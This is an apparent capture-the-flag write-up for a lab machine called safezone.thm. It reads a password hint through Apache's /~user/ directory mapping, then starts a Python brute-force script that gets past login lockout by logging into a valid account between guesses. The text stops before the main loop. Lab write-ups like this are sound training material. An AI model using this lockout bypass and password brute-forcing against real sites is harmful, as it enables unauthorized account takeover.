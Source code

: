 Tried fuzzing the `?page` parameter but didn't get any hits



Tried to include some php using the `user` field. The php is not executed



There is a `/note.txt` file 

```
Message from admin :-

		I can't remember my password always , that's why I have saved it in /home/files/pass.txt file .
```



Soo after fuzzing the `page` parameter for a while, I had a look at a write up to get some hints.

Apparently there is an `Apache` settings that allow the access to the `home` directory  using `/~[USER]/`



We can retrieve the `/home/files/pass.txt` file by visiting `/~files/pass.txt`

```
Admin password hint :-

		admin__admin

				" __ means two numbers are there , this hint is enough I think :) "
```

Soo, seems like we need to bruteforce the admin password ?

Although, in our exploration phase we registered an `admin` account, hopefully this won't interfere..



Hmmm also, we see that there is a rate limiting. When we enter 3 times the wrong password we get locked out for 60 secs.



Seems like we can go around this constraint by logging into a valid account between our trials.



Crafted this little python script to retrieve the password :

```python
import requests

# Need to have registred a user with creds user:password before running this script
def valid_login(sess):
	sess.post('http://safezone.thm/index.php', data={
		'username': 'user',
		'password': 'password',
		'submit': 'Submit'
	})

	sess.get('http://safezone.thm/logout.php')


def try_comb(sess, user='koko', passwd='koko'):
	resp = sess.post('http://safezone.thm/index.php', data={
		'username': user,
		'password': passwd,
		'submit': 'Submit'
	}).content.decode()

	return 'window.location.href' in resp

```